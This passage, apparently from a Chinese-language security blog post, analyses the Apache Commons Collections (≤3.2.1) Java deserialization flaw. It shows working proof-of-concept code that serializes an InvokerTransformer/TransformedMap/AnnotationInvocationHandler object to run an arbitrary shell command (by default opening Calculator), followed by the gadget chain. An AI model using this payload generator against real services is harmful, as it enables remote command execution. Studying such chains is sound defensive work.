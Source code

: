                         new Object[] {null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class},
                        new Object[] {execArgs}
                )
        };
        Transformer transformerChain = new ChainedTransformer(transforms);
        Map tempMap = new HashMap();
        tempMap.put("value", "does't matter");
        Map exMap = TransformedMap.decorate(tempMap, null, transformerChain);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, exMap);

        return instance;
    }

    public static void main(String[] args) throws Exception {
        String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app";

        Object obj = getAnnotationInvocationHandler(command);
        ObjectOutputStream out = new ObjectOutputStream(System.out);
        out.writeObject(obj);
    }
}
{% endhighlight %}

最终用一段调用链可以清晰的描述整个命令执行的触发过程：

{% highlight java %}
/*
    Gadget chain:
        ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject()
                AbstractInputCheckedMapDecorator$MapEntry.setValue()
                    TransformedMap.checkSetValue()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()

    Requires:
        commons-collections <= 3.2.1
*/
{% endhighlight %}
